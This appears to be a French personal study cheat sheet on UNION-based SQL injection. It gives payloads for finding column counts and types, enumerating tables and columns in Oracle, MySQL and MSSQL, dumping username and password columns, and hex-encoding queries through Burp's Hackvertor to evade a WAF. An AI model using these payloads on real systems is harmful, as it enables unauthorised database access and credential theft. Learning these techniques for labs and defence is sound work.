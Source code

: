 **v\$version** : Si par exemple la requête de base demande deux colonnes, au lieu de faire `UNION SELECT banner FROM v\$version` ou `UNION SELECT * FROM v\$version`, on peut faire `UNION SELECT banner, NULL FROM v$version`.

**dual** : Injection : `' UNION SELECT NULL FROM DUAL--` C'est  pour retrouver le nombre de colonne du tableau

###### Connaitre le type de data de la colonne :  
union-based :

dual : Injection : `' UNION SELECT NULL FROM DUAL--` C'est  pour retrouver le nombre de colonne du tableau

n type ou pas. Injection 1 : `1' UNION SELECT 'a', NULL--` Si on a une erreur, le data type de la colonne n'est pas string. Et on test avec tout les types de données pour la colonne. Pour la deuxieme colonne, meme processus donc l'injection ressemblerai à Injection 2 : `1' UNION SELECT NULL, 'a'--`

###### Voir le nom des tableaux :

**Information_schema_tables** : On peut utiliser une clause UNION. Injection : `' UNION SELECT table_name FROM information_schema_tables--`

###### Voir le nom des colonnes d'un tableau :

Pour Microsoft, Mysql : Injection : `'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='nom_du_tableau'--` et après avoir trouver le nom des colonnes, on peut voir ce qu'il y a dedans.

Pour Oracle : Injection : `' UNION SELECT table_name FROM all_tables--` Ensuite, pour voir le nom des colonnes du tableau qu'on a trouvé Injection : `' UNION SELECT column_name,NULL FROM all_tab_name WHERE table_name = 'USERS'--` mettre le nom du tableau a la place de users évidemment. Ensuite pour récupérer les données des colonnes qu'on a trouvé c'est simple : Injection : `' UNION SELECT username,password FROM USERS--`

###### Extraire des données :

Basique : requête de base : `SELECT name, email FROM users WHERE id = '1';` Là on joue juste avec un UNION SELECT, y'a rien de compliqué dans cette injection mais c'est pour ca qu'elle ne marche évidemment jamais en condition réel car trop simple sinon. Injection : 1' UNION SELECT name, email FROM users; on chope tout dans la colonne name et email.

Encode + concaténation : Imaginons qu'on est face à un waf qui detecte les injections sql, dans burp suite, on peut utiliser hackvertor qui sert à encoder (en hex_entities dans mon exemple) et éviter la détection. IMPORTANT : **dans une injections sql, quand ce qu'on doit passer à la base (un id par exemple) est dans le tableau, donc en tant que valeur, on met une apostrophe simple pour ajouté des trucs après. Quand c'est le nom d'une colonne le paramètre de base, on ne met pas d'apostrophe simple.** Dans mon exemple, le paramètre de base demande le numéro de colonne (ca pourrait être un nom à la place). On a découvert (grace à d'autre injections comme 1 UNION SELECT NULL) que la requete de base demande une valeur de seulement une colonne. Sachant que : **avec UNION, les deux requête doivent demander le même nombre de colonne**, notre requête devra demander qu'une seule colonne. Sauf que nous on veut les username et password (deux colonne différente). On va donc concaténer les deux colonnes. On va utiliser `|| '~' ||`, les deux || servent d'opérateur pour indiquer qu'on veut concaténer deux colonne. Le ~ c'est ce qui va séparer les deux valeurs (on peut mettre ce qu'on veut). Autour des opérateur, on va mettre le nom des colonnes comme ca : username `|| '~' ||` password. Notre injection sql final ressemblera à Injection 1 : `<@hex_entities>1 UNION SELECT username || '~' || password FROM users<@/hex_entities>` Maintenant imaginons que la requete de base demande 2 colonne mais la première demande des valeurs int par exemple, on devra faire la concaténation pour la seconde colonne donc Injection 2 : `<@hex_entities> UNION SELECT NULL, username || '~' || password FROM users--<@/hex_entities>` (les petites différences entre les deux injections c'est juste que ca provient de deux sources différentes)

---